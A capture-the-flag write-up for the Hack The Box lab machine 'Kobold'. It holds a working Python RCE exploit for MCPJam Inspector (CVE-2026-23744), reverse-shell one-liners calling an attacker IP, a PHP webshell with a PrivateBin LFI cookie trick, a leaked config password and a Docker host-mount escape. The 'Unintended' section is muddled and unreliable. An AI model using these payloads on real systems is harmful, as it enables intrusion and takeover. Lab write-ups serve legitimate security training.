

# Attack Path

```
└─► ffuf → mcp.kobold.htb + bin.kobold.htb + Arcane on :3552
  └─► CVE-2026-23744 (MCPJam Inspector 1.4.2 — RCE via /api/mcp/connect)
    └─► Shell as ben
      └─► id → group operator → /privatebin-data/data writable
        └─► CVE-2025-64714 (PrivateBin LFI via template cookie)
            └─► Write shell.php → RCE as nobody in container
                └─► cat /srv/cfg/conf.php → ComplexP@sswordAdmin1928
                    └─► Login Arcane (admin default user)
					  ├─► [Intended] Create project → root shell via Arcane UI
	                    └─► [Unintended] docker group → docker exploitation
```
# Sommaire

- [Enumeration](#enumeration)
- [Web](#web)
	- [Sub Domain Discovery](#sub-domain-discovery)
- [Arcane](#arcane)
- [PrivateBin](#privatebin)
- [MCPJam](#mcpjam)
	- [CVE-2026-23744 exploit](#cve-2026-23744-exploit)
	- [Shell as Ben](#shell-as-ben)
- [Privilege Escalation](#privilege-escalation)
	- [Intended](#intended)
		- [Identify groups](#identify-groups)
		- [Exploit PrivateBin LFI](#exploit-privatebin-lfi)
		- [Config File Discovered](#config-file-discovered)
		- [Create a new Project](#create-a-new-project)
	- [Unintended](#unintended)

---

# Enumeration

```
nmap -sVC -p- 10.129.7.17 -oN scan.txt
Starting Nmap 7.93 ( https://nmap.org ) at 2026-03-22 13:41 CET
Host is up (0.032s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE   VERSION
22/tcp   open  ssh       OpenSSH 9.6p1 Ubuntu 3ubuntu13.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 8c4512360361de0f0b2bc39b2a9259a1 (ECDSA)
|_  256 d23cbfed554a5213b534d2fb8fe493bd (ED25519)
80/tcp   open  http      nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to https://kobold.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
443/tcp  open  ssl/http  nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to https://kobold.htb/
| ssl-cert: Subject: commonName=kobold.htb
| Subject Alternative Name: DNS:kobold.htb, DNS:*.kobold.htb
| Not valid before: 2026-03-15T15:08:55
|_Not valid after:  2125-02-19T15:08:55
|_ssl-date: TLS randomness does not represent time
|_http-server-header: nginx/1.24.0 (Ubuntu)
| tls-alpn:
|   http/1.1
|   http/1.0
|_  http/0.9
3552/tcp open  taserver?
| fingerprint-strings:
|   GenericLines:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest, HTTPOptions:
|     HTTP/1.0 200 OK
|     Accept-Ranges: bytes
|     Cache-Control: no-cache, no-store, must-revalidate
|     Content-Length: 2081
|     Content-Type: text/html; charset=utf-8
|     Expires: 0
|     Pragma: no-cache
|     Date: Sun, 22 Mar 2026 12:42:05 GMT
|     <!doctype html>
|     <html lang="%lang%">
|     <head>
|     <meta charset="utf-8" />
|     <meta http-equiv="Cache-Control" content="no-cache, no-store, must-revalidate" />
|     <meta http-equiv="Pragma" content="no-cache" />
|     <meta http-equiv="Expires" content="0" />
|     <link rel="icon" href="/api/app-images/favicon" />
|     <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1, viewport-fit=cover" />
|     <link rel="manifest" href="/app.webmanifest" />
|     <meta name="theme-color" content="oklch(1 0 0)" media="(prefers-color-scheme: light)" />
|     <meta name="theme-color" content="oklch(0.141 0.005 285.823)" media="(prefers-color-scheme: dark)" />
|_    <link rel="modu
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 114.57 seconds
```


```
echo '10.129.7.17 kobold.htb' | tee -a /etc/hosts 
```

# Web

Let's explore the web first



We face the standard website of the target.
### Sub Domain Discovery

Let's look for subdomains.

```
ffuf -fs 154 -c -w `fzf-wordlists` -H 'Host: FUZZ.kobold.htb' -u "https://kobold.htb"

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0
________________________________________________

 :: Method           : GET
 :: URL              : https://kobold.htb
 :: Wordlist         : FUZZ: /opt/lists/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.kobold.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 154
________________________________________________

mcp                     [Status: 200, Size: 466, Words: 57, Lines: 15, Duration: 33ms]
bin                     [Status: 200, Size: 24402, Words: 1218, Lines: 386, Duration: 124ms]
```
We see 2 subdomains that we can add to our `/etc/hosts` file.

```
echo '10.129.7.17 mcp.kobold.htb bin.kobold.htb' | tee -a /etc/hosts
```

On the scan we notice that the port 3552 is open, navigating to it on the web reveal a login page for Arcane, a solution to manage dockers. As we don't have credentials, let's head to the subdomains we discovered instead.
# Arcane

On the scan we notice that the port 3552 is open, navigating to it on the web reveal a login page for Arcane, a solution to manage dockers. As we don't have credentials, let's head to the subdomains we discovered instead.


# PrivateBin


The version is noted below and is vulnerable to **CVE-2025-64714** which is an LFI. Since we couldn't find a way to exploit it we moved on.

# MCPJam


We are on the main page of the solution, let's see if we can find it's version to see if there is a vulnerability.


When going to "Settings" we found out that the version used is **1.4.2** which vulnerable to **CVE-2026-23744**. There is a poc on github as well.
https://github.com/boroeurnprach/CVE-2026-23744-PoC

### CVE-2026-23744 exploit

As the poc won't work against our target, we will have to modify our script so it matchs our target.

**exploit_fixed.py**
```
import subprocess
import time
import requests
import os
import sys
import urllib3

# Désactive les avertissements de sécurité pour les certificats auto-signés
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def reproduce(target_host, command):
    print(f"[*] Checking if server {target_host} is reachable...")

    start_time = time.time()
    server_ready = False
    base_url = f"https://{target_host}"

    while time.time() - start_time < 10: # 10 secondes suffisent largement
        try:
            # Ajout de verify=False pour ignorer les erreurs SSL
            response = requests.get(base_url, timeout=2, verify=False)
            server_ready = True
            break
        except requests.exceptions.ConnectionError:
            time.sleep(1)
            continue

    if not server_ready:
        print("[!] Server failed to respond in time. Check your VPN or /etc/hosts.")
        return

    print("[+] Server is reachable.")

    # Envoi du payload
    print("[*] Sending exploit payload...")
    exploit_url = f"{base_url}/api/mcp/connect"

    cmd = "bash"
    args = ["-c", command]

    payload = {
        "serverConfig": {
            "command": cmd,
            "args": args,
            "env": {} # Pas besoin du DISPLAY local
        },
        "serverId": "rce_test"
    }

    try:
        # Ajout de verify=False ici aussi
        response = requests.post(exploit_url, json=payload, timeout=5, verify=False)
        print(f"[*] Server responded with status code: {response.status_code}")
        print(f"[*] Response body: {response.text}")
    except Exception as e:
        print(f"[*] Request finished or timed out (Normal if you caught a reverse shell!): {e}")

    print("[+] Exploit execution finished.")

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print(f"Usage: python3 {sys.argv[0]} <target_host> '<command>'")
        print(f"Example: python3 {sys.argv[0]} mcp.kobold.htb 'ping -c 4 10.10.15.42'")
        sys.exit(1)

    target_host = sys.argv[1]
    command = sys.argv[2]

    reproduce(target_host, command)
```

### Shell as Ben

We start our listener and start the exploit.

```
python3 exploit_fixed.py mcp.kobold.htb 'bash -i >& /dev/tcp/10.10.15.42/443 0>&1'
```
```
nc -lvnp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.129.7.17.
Ncat: Connection from 10.129.7.17:52708.
bash: cannot set terminal process group (1536): Inappropriate ioctl for device
bash: no job control in this shell
ben@kobold:/usr/local/lib/node_modules/@mcpjam/inspector$
```

We have a shell as `ben` and we can get the user flag.

# Privilege Escalation

### Intended

#### Identify groups

```
ben@kobold:~$ id
uid=1001(ben) gid=1001(ben) groups=1001(ben),37(operator)
```

We notice that we are part of the group `operator`. 
Lets look if there is files or folder we can interact with this group

```
ben@kobold:~$ find / -group operator 2>/dev/null
/privatebin-data
/privatebin-data/certs
/privatebin-data/certs/key.pem
/privatebin-data/certs/cert.pem
/privatebin-data/data
/privatebin-data/data/purge_limiter.php
/privatebin-data/data/bd
/privatebin-data/data/bd/b5
/privatebin-data/data/.htaccess
/privatebin-data/data/e3
/privatebin-data/data/traffic_limiter.php
/privatebin-data/data/salt.php
```

All are about PrivateBin which is hosted on the web via a vhost. 

#### Exploit PrivateBin LFI

We can try to exploit the LFI vulnerability to gain a webshell on the conteiner used. Let's write a php webshell under `/privatebin-data/data`.

```
echo '<?php system($_GET["cmd"]); ?>' > /privatebin-data/data/shell.php
```
Now let's see if we can gain an rce

```
curl -sk "https://bin.kobold.htb/?cmd=id" --cookie "template=../data/shell"
uid=65534(nobody) gid=82(www-data) groups=82(www-data)
```

Great we got an **RCE** as `nobody`. Let's gain a reverse shell with the following payload.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.15.42 443 >/tmp/f
```

```
curl -sk 'https://bin.kobold.htb?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20%2Di%202%3E%261%7Cnc%2010%2E10%2E15%2E42%20443%20%3E%2Ftmp%2Ff' --cookie "template=../data/shell"
```

```
nc -lvnp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.129.7.32.
Ncat: Connection from 10.129.7.32:35045.
sh: can't access tty; job control turned off
/var/www $
```
#### Config File Discovered


```
cat /srv/cfg/conf.php

<SNIP>

[model]
; example of DB configuration for MySQL
; Temporarily disabling while we migrate to new server for loadbalancing
;class = Database
[model_options]
dsn = "mysql:host=localhost;dbname=privatebin;charset=UTF8"
tbl = "privatebin_"    ; table prefix
usr = "privatebin"
pwd = "ComplexP@sswordAdmin1928"
opt[12] = true   ; PDO::ATTR_PERSISTENT

<SNIP>
```

We found credentials for MySQL. Let's try to use these creds on the arcan login page.

The user privatebin didn't work but the default username which is arkane worked so we could login.


#### Create a new Project

Since we are admin on the application, we can create a new conteiner that will copy the volumes of the target so we will have access to everything from the conteiner. 
To do we have to go at "**Projects**" > "**Create Project**" and paste this 

```
services:
  pwn:
    image: privatebin/nginx-fpm-alpine:2.0.2
    user: root
    entrypoint: ["/bin/sh", "-c", "sleep 3600"]
    volumes:
      - /:/hostfs
```
Then we need to start the project by clicking on "**UP**" and then go to "**Containers**" > "**hacked-pwn-1"** > "**Shell**". This will grant us a live shell directly from Arcane.


And we got the root flag

### Unintended

The Docker socket has SUID set on. Since we are a member of the operator group we can access the docker socket.

```
ls -la /var/run/docker.sock
srw-rw---- 1 root docker 0 Mar 22 15:11 /var/run/docker.sock
```

From this, we can add ben to the docker group and get a shell as root in a conteiner that copy the target's volumes.

```
nwgroup docker
```
```
docker run -it --rm -v /:/hostfs --user root --entrypoint /bin/sh privatebin/nginx-fpm-alpine:2.0.2 -c 'chroot /hostfs /bin/bash'
```


